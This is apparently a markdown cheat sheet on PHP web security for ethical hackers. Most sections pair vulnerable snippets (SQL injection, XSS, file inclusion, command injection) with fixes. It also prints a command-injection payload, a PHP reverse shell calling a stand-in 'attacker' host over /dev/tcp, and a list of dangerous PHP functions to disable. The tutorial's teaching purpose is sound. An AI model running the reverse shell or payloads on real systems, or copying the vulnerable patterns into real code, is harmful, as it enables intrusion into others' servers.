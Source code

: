 ## 📘 1. Introduction to PHP in Web Hacking
PHP is a widely-used scripting language in web development. Due to poor coding practices, PHP applications are often vulnerable to various attacks. This guide focuses on learning PHP from an ethical hacker's perspective.

---

## 🛠️ 2. Basic Input Handling (GET & POST)

### 🧾 GET Request:
```php
$user = $_GET['user'];
echo "Hello, $user";
```
- Data is passed in URL
- Easily visible & editable
- Vulnerable to XSS & SQLi if not sanitized

### 🧾 POST Request:
```php
$user = $_POST['user'];
$password = $_POST['pass'];
```
- Data is sent in HTTP body
- Safer for sensitive data

### ✅ Defense:
```php
$user = htmlspecialchars($_POST['user'], ENT_QUOTES);
```

---

## 🛡️ 3. SQL Injection

### ❌ Vulnerable Code:
```php
$query = "SELECT * FROM users WHERE username='$user'";
```

### ✅ Secure Code:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$user]);
```

---

## 🔥 4. File Upload Vulnerabilities
- MIME type spoofing
- Bypass `.php` file restrictions
- Shell upload

### ✅ Secure Upload:
```php
$ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
$allowed = ['jpg','png'];
if (in_array($ext, $allowed)) {
    move_uploaded_file($_FILES['file']['tmp_name'], "/uploads/".$_FILES['file']['name']);
}
```

---

## 🔒 5. Password Handling
```php
$hash = password_hash($pass, PASSWORD_DEFAULT);
if (password_verify($pass, $hash)) {
    echo "Logged in!";
}
```

---

## 🔐 6. Session Security
- Use `session_regenerate_id()`
- Set cookie flags:
```php
ini_set("session.cookie_httponly", 1);
ini_set("session.cookie_secure", 1);
```

---

## 🛡️ 7. Cross-Site Scripting (XSS)
### ❌ Vulnerable:
```php
echo $_GET['msg'];
```
### ✅ Safe:
```php
echo htmlspecialchars($_GET['msg'], ENT_QUOTES);
```

---

## 🎯 8. CSRF (Cross-Site Request Forgery)
- Force user actions by sending crafted requests
- Use CSRF token in forms:
```php
<input type="hidden" name="token" value="<?= $_SESSION['token']; ?>">
```

---

## 🗂️ 9. File Inclusion Attacks (LFI/RFI)
### ❌ Vulnerable:
```php
include($_GET['page']);
```
### ✅ Secure:
```php
$whitelist = ['home', 'about'];
if (in_array($_GET['page'], $whitelist)) {
    include($_GET['page'].".php");
}
```

---

## 🧮 10. Type Juggling
### ❌ Weak Check:
```php
if ($_POST['is_admin'] == true)
```
### ✅ Strict Check:
```php
if ($_POST['is_admin'] === '1')
```

---

## 💣 11. OS Command Injection
### ❌ Vulnerable:
```php
system("ping -c 3 $_GET[ip]");
```
### ✅ Safe:
```php
$ip = escapeshellarg($_GET['ip']);
system("ping -c 3 $ip");
```

### 🧠 Dangerous Payload:
```
127.0.0.1; ls
```

---

## 📥 12. HTTP Header Attacks
| Header         | Abuse            |
|----------------|------------------|
| User-Agent     | Bot evasion      |
| Referer        | CSRF check bypass|
| Cookie         | Session hijacking|
| Host           | Header injection |

### ✅ Header Hardening:
```php
header("X-Frame-Options: DENY");
header("Content-Security-Policy: default-src 'self'");
```

---

## 🧰 13. Tools & Practice
- Burp Suite
- OWASP ZAP
- DVWA / BWAPP
- TryHackMe / HackTheBox

---

## 🔥 14. PHP Reverse Shell (For Labs Only)
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'");
?>
```

---

## 🧠 15. Summary:
- Sanitize all input
- Use HTTPS
- Avoid dynamic includes
- Disable dangerous PHP functions:
```ini
disable_functions = system, exec, shell_exec, passthru, popen
```

---

> ✅ Use this document for learning and ethical testing only. Build your own labs and test safely!
